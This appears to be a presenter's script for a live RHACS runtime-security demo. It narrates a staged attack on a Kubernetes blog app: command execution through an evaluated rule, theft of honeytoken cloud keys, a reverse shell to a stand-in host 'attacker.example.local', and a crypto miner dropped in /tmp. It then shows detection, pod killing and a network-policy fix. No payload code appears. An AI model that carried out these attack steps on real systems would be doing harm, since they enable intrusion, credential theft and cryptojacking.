A normal shortcut, made under time pressure. One clean library. Zero CVEs.
And one big vulnerability.
So what happens if I send a rule instead of a link?
Act 2: Day zero
scripts/demo.sh act2id, uname, /etc/os-release come back. Let people read.I just ran my own commands inside the application. From outside. Through the website. With one form.
And this is not a CVE. There is no package to update. No security notice. Nobody in the world knows about it — except me.
This is a zero-day. My own. Tomorrow, it could be in a library in your image. The scanner says zero. The scanner is right. And it does not help.
Now a harder question. What if this was not a mistake?
What if someone added it on purpose? A bad pull request. A changed library. A hacked build step. The code would look the same. The scan would say zero.
From the code alone, you cannot tell a mistake from a backdoor. And no scanner can.
So — did anyone notice?
Yes. In seconds.
Here are my exact commands. id. uname. cat. head. In which container. As which user. At what time.
This is the fourth word: behaves.
This application runs exactly one program: itself. It never starts another one. So its normal list has one line. I set that list, and I locked it. Anything else is someone else.
Look at what the attacker used: id, cat. Normal Linux tools. Nothing an antivirus calls bad. RHACS does not need to know what an attack looks like. It only needs to know what normal looks like.
And it does not care who wrote the code. A mistake or a backdoor — like the one in the Claude Code extension — must do something to be useful. Run a program. Write a file. Open a connection. That is what RHACS watches. A backdoor can look clean. It cannot behave clean.
On screen — backup screenshots
"One clean dependency (yaegi, 0 CVEs). One evaluated rule. No scanner on earth reports this."



Act 3: Loot
scripts/demo.sh act3Now think like an attacker. You are inside. What do you do first?
You look for passwords and keys.
And here, the hardening works. There is no Kubernetes token. There are no secrets in the environment. The pipeline did a good job.
But wait —
.aws/credentials file appears, then the keys.Cloud keys! In a hidden folder. An access key and a secret key. And a second file, the .env: a database password and a payment key. For an attacker, this is perfect.
I put them there.
These keys are fake. The application never reads these files. So the only one who reads them is someone who should not be there.
This is a honeytoken. A trap. Nobody normal touches it, so it almost never gives a false alarm. The attacker took the bait. Here is the exact command.
Next, the attacker goes further. Can they reach the Kubernetes API? Yes, it answers. And the payment service?
Credit card numbers. From the payment service. Read by my blog.
Now — remember the pipeline slide? And what was missing?
Build. Scan. Policy check. Approval. Deploy. Nothing about the network. Nothing that says who this application may talk to.
There is no network policy. And in Kubernetes, the default is simple: everything can talk to everything. So my public blog can reach the payment service. It can reach the Kubernetes API. It can reach the whole internet.
Nobody decided that. Nobody noticed it. That is a misconfiguration.
Third word: talks to.
The payment service has a normal list of connections too. And it is empty. Nobody ever calls it. So the first call from the blog is clearly someone moving through your cluster — toward your most important data.
And here it is on the map. The blog, reaching the payments.
On screen — backup screenshots
"Not one step in the pipeline about who this app may talk to."




The Kubernetes API reconnaissance violation (the control-plane probe, beat 3c) fires here
too — it's a recent addition, so there's no capture of it yet; grab one next dry run.
Act 4: Persistence and profit
Until now, the attacker sent one command at a time, through the website. That is slow. An attacker wants a real shell.
This terminal is the attacker's computer. It is outside the cluster. Its name is attacker.example.local. It is waiting for a call.
scripts/attacker.sh c2scripts/demo.sh act4And the blog called the attacker. Out to the internet. Because nothing said it could not.
id
hostname
psThis is a live shell. Inside my "secure" application. Typed by a person on a computer outside the data center.
Now the attacker wants money.
The files of the application are read-only. But there are two small folders they can write to. One is /tmp. So they download a crypto miner into /tmp, make it executable, and start it.
ps again. The miner is there.That is your cloud bill, mining money for someone else.
So what did RHACS see? Every step.
A reverse shell tool. A crypto miner. A program outside the normal list.
This one is about files. The application writes only to its own cache. So a new file in /tmp —
— made executable, is someone preparing tools inside the container. I did not write a rule for "miner". I wrote a rule for "this container changed".
And here is the attacker on the map. Outside the cluster. Three connections from my blog: one download, one mining pool, one shell. All new. All outside the normal list.
So, in about fifteen minutes: one unknown vulnerability — a mistake or a backdoor, it does not matter — and one missing network setting. And with that, the attacker ran commands, looked for keys, read card data, opened a shell from the internet, and started mining.
RHACS saw every step. In seconds.
But there is a problem.
Seeing is not stopping. The miner is still running. The shell is still open.
On screen — backup screenshots
"That's an interactive shell, inside your 'secure' app, from outside your cluster."





Act 5: Respond
Last word: acts.
When you respond to an attack, you do two things, in order. First, limit the damage, now. Then, close the way in.
These are the rules that found the attack. I did not click them together in a screen. They are Kubernetes files, in Git. They go through the same review and pipeline as my code.
Step one: limit the damage.
scripts/demo.sh act5I am changing these rules from "tell me" to "act". If this application runs anything outside its normal list, kill the pod.
id.The attacker comes back. They run a command —
— and the pod is gone.
And look at the attacker's shell. Silent. Dead. Nobody is on the other side anymore.
I did not patch anything. The bug is still there. But RHACS killed the hacked pod, and Kubernetes started a clean one from the original image, in a few seconds. The miner, the shell, the files in /tmp — all gone.
Every time they try again, the same thing happens. Every command costs them the pod. And I have time.
Time is what I was missing. Between "someone found the vulnerability" and "the fix is in production", there is a gap. Days. Sometimes weeks. With a zero-day, you don't even know the gap has started. This is how you stay safe during that gap.
Step two: now that I have time, close the way in. And fix the misconfiguration.
This application needs only two things: DNS, and the internet on the web ports, to check links. Nothing else. So that is all it gets.
This last call is important. It runs inside the application itself — no new program. So the kill rule has nothing to see. But the network policy does not care how. The connection is not allowed. It times out. And the payment service now accepts no connections at all.
The kill stopped this attacker. The network policy stops the next one, before the first packet leaves.
And it is all recorded. "Kill Pod" — once for every attempt.
On screen — backup screenshots
"The kill stopped this attacker. The NetworkPolicy stops the next one before the first packet leaves."




Act 6: Fix forward
Now, finally, I fix the real bug.
linkcheck_v1.go → linkcheck_v2.go.This is the old code. "Built in one afternoon." And here is the problem, in two lines: take the writer's "rule", and run it as code — with the power to start programs.
And this is the fix. No more rules. Check that the link is a real web address, and fetch it with a normal web client. Nothing is run as code.
I did not have to guess where the problem was. RHACS showed me which feature was attacked, how, and from where. The fix is small.
scripts/demo.sh act6Version two. Still zero CVEs. And the attack is now rejected: it is not a valid web address.
And remember: runtime security did not replace the fix. It kept me safe until the fix was ready. That is its job.
On screen — backup screenshots
"Runtime didn't replace patching. It kept me safe until the patch was ready."




The tour
Look back at what you saw. It is all still here.
unhackable.One attack. Many alerts. Programs, files, keys, network. Each one shows the command, the user and the time. The evidence is already there.
Here is the whole attack as a map. Where it came from. Where it tried to go. Who the blog talked to for the first time.
Remember the application with the lowest risk in the cluster?
And this page.
Still zero. It was right the whole time. And it saw nothing.
Back to the five words.
Made of — zero CVEs, and where it comes from.
Deployed — hardened. And that helped: no Kubernetes token, no secrets in the environment. The only keys the attacker found were my trap.
Talks to — the call to payments. The calls to the attacker. The missing network policy.
Behaves — every command, every file. The zero-day — or the hidden backdoor.
Acts — the kill, and the network policy.
One product. One console. The same RHACS that does the vulnerability scanning. Today you saw all five words.
The close
So, what should you take home?
Keep doing every check, in the pipeline and at deploy. Trusted sources. Signatures. Scans.
But a pipeline only checks what you know. It cannot see what nobody knows yet. What nobody noticed. Or what somebody hid.
So here are three questions for your team, when you are back at work.
Do you know which programs your containers should run?
Would you know, in one minute, if one of them ran something else?
And how fast could you stop it — without waking anyone up?
A scan sees what is known. Runtime sees what happens. RHACS does both.
[Click.] See it, and stop it, while it happens. That is what you just saw.
[Click.] And fix it, before the vulnerability is public. Imagine having the fixed library before the rest of the world even knows about the vulnerability.
Thank you.
Questions you'll get
Short answers. Say the first sentence, then stop. If they want more, they will ask.
| Question | Answer |
|---|---|
| "Isn't this just a bad developer?" | No. It was a normal shortcut, made under time pressure, and it passed every check. If it was a library with an unknown bug, the result would be the same. You cannot find unknown problems in advance. |
| "We only use trusted vendors and trusted libraries." | Good — please keep doing that. It is one of the best things you can do. But trusted sources lower the risk. They do not remove it. The backdoored Claude Code extension was the real one, in a trusted store. That is why you also watch behavior. |
| "We sign our images and create SBOMs." | Keep doing it. A signature proves who built the image. An SBOM shows what is inside. Neither proves that the code is honest. The SolarWinds backdoor was in a correctly signed update. |
| "How does RHACS catch a supply-chain backdoor?" | By behavior. A backdoor that does nothing is harmless. When it runs a program, writes a file or calls home, that is outside the normal list. It does not matter who wrote the code. |
| "We have a WAF." | Keep it. A WAF may block this request. Maybe not the next one. And it has no rule for a zero-day. RHACS does not care how the attacker got in. It watches what happens inside. |
| "Our images are distroless." | Good, keep doing that. Fewer tools makes the attacker's work harder. But they can bring their own tools — like the miner in the demo. And it does not fix the code, or the network. |
| "We already have EDR on the servers." | Many EDR tools see programs on a machine. RHACS sees them with context: which application, which image, what is normal for it, who it talks to. And it acts in Kubernetes terms: kill the pod, apply a network policy. |
| "Why not have a network policy from day one?" | You should. That is the misconfiguration part of the story. The hard part is knowing what the policy should say. The RHACS network graph shows what each application really talks to. Start there. |
| "Kill Pod will break production." | It kills one pod. Kubernetes starts a new, clean one in a few seconds. And you only turn it on when you know what normal looks like. First alert. Later, act. Like in the demo. |
| "Does the attacker get anything before the kill?" | For less than one second. That is why step two is the network policy. It removes even that. |
| "What can trigger the kill?" | In the demo: a program outside the normal list. The network alert is on the payment service — you do not kill your payment service. You answer it with a network policy. That is why there are two steps. |
| "What if the attacker uses port 443, like normal web traffic?" | Then this network policy lets it through, because the link checker needs the internet. You still see the new destination on the network graph. In production, add an allow-list of destinations — an egress firewall or a proxy. |
| "How long does it take to learn what is normal?" | RHACS learns by watching. You can also declare the normal list yourself, like I did, and lock it on day one. Start with the applications that matter most. |
| "How much work is this for my team?" | The rules are files in Git, reviewed like code. Start with alerts only. Turn on automatic actions where the normal list is stable. |
| "Is this a separate product?" | No. It is part of RHACS. The same console and the same cluster components you already use for vulnerability scanning. |
| "What about false alarms?" | The normal list is per application, so it is very precise. A trap file, like the honeytoken, has almost no false alarms: nobody normal ever touches it. |
Q&A — longer answers
"Isn't this just a bad developer?" "No. It is a normal shortcut, made under time pressure, and it passed every check. And if it was a library with an unknown bug, the result would be the same. You cannot find unknown problems in advance."
"We only use trusted vendors and trusted libraries." "Good — please keep doing that. It is one of the best things you can do. But trusted sources lower the risk; they don't remove it. The backdoored Claude Code extension was the real one, in a trusted store. That is why you also watch behavior."
"We sign our images and create SBOMs." "Keep doing it. A signature proves who built the image. An SBOM shows what is inside. But neither proves the code is honest. The SolarWinds backdoor was in a correctly signed update."
"How does RHACS catch a supply-chain backdoor?" "By behavior. A backdoor that does nothing is harmless. When it runs a program, writes a file or calls home, that is outside the normal list. It does not matter who wrote the code."
"We have a WAF." "A WAF may block this attack. Maybe not the next one. And it has no rule for a zero-day. RHACS does not care how the attacker got in. It watches what they do inside."
"Our images are distroless." "Good, keep doing that. Fewer tools in the image makes the attacker's work harder. But they can bring their own tools — like the miner in the demo. And it does not fix the code, or the network."
"Why not have a network policy from day one?" "You should. That is the misconfiguration part of the story. The hard part is knowing what the policy should say. The RHACS network graph shows what each application really talks to. Start there."
"Kill Pod will break production." "It kills one pod. Kubernetes starts a new one in a few seconds. And you only turn it on when you know what normal looks like. First alert, later enforce. Like in the demo."
"Does the attacker get a connection before the kill?" "Yes, for less than one second. That is why step two is the network policy. It removes even that."
"What can trigger the kill?" "In the demo: a program outside the normal list. The network alert is on the payment service — you do not kill your payment service. You answer it with a network policy. That is why there are two steps."
"We already have EDR on the nodes." "Many EDR tools see programs on a machine. RHACS sees them with context: which application, which image, what is normal for it, who it talks to. And it responds in Kubernetes terms."